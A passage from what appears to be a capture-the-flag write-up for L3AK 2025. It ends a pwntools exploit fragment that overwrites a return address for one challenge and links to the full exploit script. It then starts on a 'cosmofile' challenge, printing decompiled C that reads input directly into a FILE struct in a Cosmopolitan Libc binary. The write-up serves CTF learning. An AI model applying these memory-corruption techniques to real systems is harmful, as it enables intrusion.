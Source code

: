 ```py
    sla(b"r/w): ", b"w")
    sla(b"): ", h2b(ret_addr + i))
    sla(b"): ", h2b(b))

ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/go_write_where.py)

### cosmofile

This challenge is a binary built with **Cosmopolitan Libc**.
The binary is actually pretty simple, and it hints at using some kind of File Structure exploit.
The 'problem' is that the implementation of `fread` and the `FILE` struct
is different from the usual **GLIBC** implementation.

The binary creates a file and writes some strings into it.
There are 3 choices for interaction: printing the content of the file, exiting, and reading into the file structure of that file.
Printing the content of the file uses `fread` into a buffer and then `write` to stdout.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[4100]; // [rsp+0h] [rbp-1010h] BYREF
  int choice; // [rsp+1004h] [rbp-Ch]
  FILE *f; // [rsp+1008h] [rbp-8h]

  f = fopen("/tmp/cosmofile.txt", "rw+");
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  if ( f )
  {
    fwrite("Here is a secret of the universe:\n... huh?\n", 1uLL, 0x2BuLL, f);
    fwrite("It's not here...", 1uLL, 0x10uLL, f);
    fflush(f);
    rewind(f);
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          menu();
          choice = read_int();
          if ( choice != (_DWORD)&unk_6E7472 )
            break;
          cosmo_puts("Whoa whoa whoa... you can't just hide the secret of the universe like that!");
          cosmo_puts("Just kidding, that's not really a secret...");
          read(0, f, 0x70uLL);
        }
        if ( choice <= (int)&unk_6E7472 )
          break;
LABEL_12:
        cosmo_puts("Invalid choice. Please try again.");
      }
      if ( choice != 1 )
      {
        if ( choice == 2 )
        {
          cosmo_print("Exiting...\n");
          exit(0);
        }
        goto LABEL_12;
      }
```